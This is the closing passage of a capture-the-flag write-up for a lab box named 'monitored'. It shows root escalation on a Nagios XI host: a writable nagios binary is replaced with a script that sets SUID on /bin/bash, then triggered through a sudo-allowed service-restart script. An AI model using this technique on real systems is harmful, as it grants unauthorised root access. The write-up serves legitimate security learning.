 Looks like we can select a command, followed by a program.


Looking to see if any of these are writable we find that nagios is:

```
nagios@monitored:~$ ls -la /usr/local/nagios/bin/nagios
-rwxrwxr-- 1 nagios nagios 717648 Nov  9  2023 /usr/local/nagios/bin/nagios
```

Lets now backup the original nagios and create our own, setting the SUID on it:

```
nagios@monitored:/usr/local/nagios/bin$ mv nagios nagios.backup  
```

Then crate a new nagios:

```
#!/bin/bash

/bin/chmod 4755 /bin/bash
```
Make it executable:
```                
nagios@monitored:/usr/local/nagios/bin$ chmod +x nagios
```

We can then run:
```
sudo /usr/local/nagiosxi/scripts/manage_services.sh restart nagios
```

Followed by `/bin/bash -p` for a root shell:

```
nagios@monitored:/usr/local/nagios/bin$ /bin/bash -p
bash-5.1# whoami
root
bash-5.1# id
uid=1001(nagios) gid=1001(nagios) euid=0(root) groups=1001(nagios),1002(nagcmd)
```

We can now grab the final flag:

![monitored_root_flag.png](../assets/monitored_assets/monitored_root_flag.png)

Thanks for following along!

-Ryan

------------------------------------------------

